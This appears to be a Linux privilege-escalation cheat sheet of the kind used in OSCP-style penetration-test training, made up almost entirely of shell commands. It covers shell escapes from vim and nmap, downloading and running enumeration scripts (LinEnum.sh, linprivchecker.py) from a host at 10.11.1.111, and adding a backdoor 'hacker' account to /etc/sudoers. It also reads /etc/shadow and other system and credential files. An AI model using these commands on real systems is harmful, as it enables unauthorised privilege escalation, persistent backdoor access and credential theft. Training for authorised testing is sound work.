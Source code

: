 ```
:!bash
:set shell=/bin/bash:shell
(From within nmap)
!sh

# Access to more binaries
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

# Set up webserver
cd /root/oscp/useful-tools/privesc/linux/privesc-scripts; python -m SimpleHTTPServer 8080; python3 -m http.server 80

# Download all files
wget http://10.11.1.111:8080/ -r; mv 10.11.1.111:8080 exploits; cd exploits; rm index.html; chmod 700 LinEnum.sh linprivchecker.py unix-privesc-check

./LinEnum.sh -t -k password -r LinEnum.txt
python linprivchecker.py extended
./unix-privesc-check standard

# Writable directories
/tmp
/var/tmp

# Add user to sudoers
useradd hacker
passwd hacker
echo "hacker ALL=(ALL:ALL) ALL" >> /etc/sudoers
```

### Basic info

```
which awk perl python python3 ruby gcc cc nano vi vim nmap find netcat nc wget tftp ftp 2>/dev/null
uname -a
env
id
cat /proc/version
cat /etc/issue
cat /etc/passwd
cat /etc/group
cat /etc/shadow
cat /etc/hosts
cat /etc/fstab
cat /etc/crontab

# Users with login
grep -vE "nologin" /etc/passwd

# Priv Enumeration Scripts
upload /unix-privesc-check
upload /root/Desktop/Backup/Tools/Linux_privesc_tools/linuxprivchecker.py ./
upload /root/Desktop/Backup/Tools/Linux_privesc_tools/LinEnum.sh ./

python linprivchecker.py extended
./LinEnum.sh -t -k password
unix-privesc-check
```
